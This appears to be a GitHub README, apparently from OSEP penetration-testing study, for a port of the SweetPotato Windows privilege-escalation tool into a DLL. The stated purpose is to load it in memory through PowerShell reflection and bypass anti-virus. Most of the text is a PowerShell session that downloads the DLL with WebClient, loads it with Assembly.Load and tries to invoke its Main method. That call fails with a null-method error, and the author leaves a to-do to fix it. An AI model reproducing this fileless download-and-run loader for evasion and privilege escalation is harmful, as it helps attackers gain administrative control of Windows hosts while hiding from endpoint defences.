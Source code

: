 # SweetPotato-DLL
Ported the SweetPotato Local Privilege Escalation C# Console Application to C# Library to Be Loaded Using PowerShell Reflection (in-memory) to Bypass the Anti-Virus

# TO DO: Try making every class public and recompile to fix this error:

PS C:\Users\admin\Desktop\OSEP\SweetPotatoDLL\SweetPotatoDLL\SweetPotatoDLL\bin\x64\Release> $data = (New-Object System.Net.WebClient).DownloadData('http://localhost:8080/SweetPotato.dll')
PS C:\Users\admin\Desktop\OSEP\SweetPotatoDLL\SweetPotatoDLL\SweetPotatoDLL\bin\x64\Release>
PS C:\Users\admin\Desktop\OSEP\SweetPotatoDLL\SweetPotatoDLL\SweetPotatoDLL\bin\x64\Release> $assem = [System.Reflection.Assembly]::Load($data)
PS C:\Users\admin\Desktop\OSEP\SweetPotatoDLL\SweetPotatoDLL\SweetPotatoDLL\bin\x64\Release> $class = $assem.GetType('SweetPotato.Program')
PS C:\Users\admin\Desktop\OSEP\SweetPotatoDLL\SweetPotatoDLL\SweetPotatoDLL\bin\x64\Release> $class

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
False    False    Program                                  System.Object


PS C:\Users\admin\Desktop\OSEP\SweetPotatoDLL\SweetPotatoDLL\SweetPotatoDLL\bin\x64\Release> $method = $class.GetMethod("Main")
PS C:\Users\admin\Desktop\OSEP\SweetPotatoDLL\SweetPotatoDLL\SweetPotatoDLL\bin\x64\Release> $method
PS C:\Users\admin\Desktop\OSEP\SweetPotatoDLL\SweetPotatoDLL\SweetPotatoDLL\bin\x64\Release> $method.Invoke(0, $null)
You cannot call a method on a null-valued expression.
At line:1 char:1
+ $method.Invoke(0, $null)
+ ~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull
